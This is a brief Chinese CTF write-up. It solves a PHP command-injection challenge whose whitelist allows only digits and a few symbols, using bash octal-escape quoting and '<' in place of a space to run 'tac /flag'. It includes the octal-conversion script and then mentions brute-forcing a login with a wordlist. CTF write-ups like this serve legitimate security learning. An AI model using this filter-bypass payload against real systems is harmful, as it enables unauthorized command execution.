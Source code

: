 ```php
<?php
highlight_file(__FILE__);
function waf($cmd){
    $white_list = ['0','1','2','3','4','5','6','7','8','9','\\','\'','$','<']; 
    $cmd_char = str_split($cmd);
    foreach($cmd_char as $char){
        if (!in_array($char, $white_list)){
            die("really ez?");
        }
    }
    return $cmd;
}
$cmd=waf($_GET["cmd"]);
system($cmd);
```

构造八进制脚本

```php
def convert_to_octal(string):
    octal_string = ""
    for char in string:
        octal_char = oct(ord(char))[2:]
        # 如果八进制不够三位，则在前面补零
        if len(octal_char) < 3:
            octal_char = "0" * (3 - len(octal_char)) + octal_char
        octal_string += "\\" + octal_char
    return  octal_string 

user_input = input("请输入字符串：")
result = convert_to_octal(user_input)
print("转换后的结果为:", result)
```

payload：

`Ls   ->   $'\154\163'`

测试中发现传空格就不行，并且白名单中还剩 < 没用上

在 linux 中 < <> 都可以表示空格

**最终 payload：**

`$'\164\141\143'<'\057\146\154\141\147'  = tac /flag` 得到 flag

后续发现空格不是被过滤而是传上去被解析转义了，可通过这篇文章找到答案

[利用 shell 脚本变量构造无字母数字命令 - 先知社区](https://xz.aliyun.com/t/12242?time__1311=mqmhD5YIMD7GkDlc%2BEH4iTwQz0Ki%3D74D)

### **我是一个复读机**

> 本地包用 bp 的内嵌浏览器打开来抓包

打开是登录界面，给了用户名和字典直接爆破即可

